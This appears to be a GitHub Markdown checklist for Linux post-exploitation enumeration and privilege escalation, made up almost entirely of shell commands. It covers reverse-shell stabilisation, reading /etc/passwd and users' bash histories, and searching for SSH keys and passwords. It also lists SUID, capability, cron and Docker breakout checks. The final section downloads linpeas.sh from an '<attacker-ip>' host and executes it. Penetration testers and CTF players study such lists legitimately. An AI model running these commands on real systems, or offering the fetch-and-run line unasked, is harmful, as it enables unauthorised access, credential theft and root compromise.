 # enum_checklist_pe
---

## 🧩 0. Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

---

## 🧠 1. System Information

```bash
hostname
whoami
id
uname -a
cat /etc/os-release
uptime
```

---

## 👤 2. User Information

```bash
who
w
last -a | head -n 10
cat /etc/passwd
cat /etc/group
getent passwd
getent group
```

### Current User Context:

```bash
id
groups
sudo -l 2>/dev/null
```

---

## 📂 3. Home Directories / Sensitive Files

```bash
ls -la /root
ls -la /home
ls -la /home/*/.ssh
cat /home/*/.bash_history 2>/dev/null
```

---

## 🔐 4. Credentials / SSH Keys / Tokens

```bash
find / -name id_rsa 2>/dev/null
grep -r "password" /etc/ 2>/dev/null
grep -r "password" /home 2>/dev/null
```

---

## 💥 5. Privilege Escalation Vectors

### SUID / SGID Binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```

### World-Writable Files & Directories:

```bash
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

### Capabilities:

```bash
getcap -r / 2>/dev/null
```

### Cron Jobs:

```bash
crontab -l 2>/dev/null
ls -la /etc/cron*
cat /etc/crontab
```

### Check for Docker/LXC (container breakout):

```bash
which docker
docker ps -a
id | grep docker
```

---

## 🧠 6. Running Processes / Services

```bash
ps aux
systemctl list-units --type=service
service --status-all 2>/dev/null
```

---

## 📡 7. Network Information

```bash
ip a
ip r
ss -tulnp
cat /etc/resolv.conf
arp -a
```

---

## 🧱 8. Installed Software / Package Manager

```bash
dpkg -l 2>/dev/null | grep -i security
rpm -qa 2>/dev/null
```

---

## 🔍 9. File Systems & Mounts

```bash
df -h
mount
lsblk
```

---

## 🔐 10. Useful Environment Variables

```bash
env
echo $PATH
```

---

## 🔭 11. Scheduled Jobs

```bash
cat /etc/crontab
ls -l /etc/cron.d/
ls -l /etc/cron.daily/
```

---

## 📁 12. Look for Backups / Databases / Logs

```bash
ls -la /var/backups
ls -la /var/log
find / -name "*.sql" 2>/dev/null
```

---

## 🧰 Optional Tools (Only if Safe)

```bash
wget http://<attacker-ip>/linpeas.sh -O /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh
```

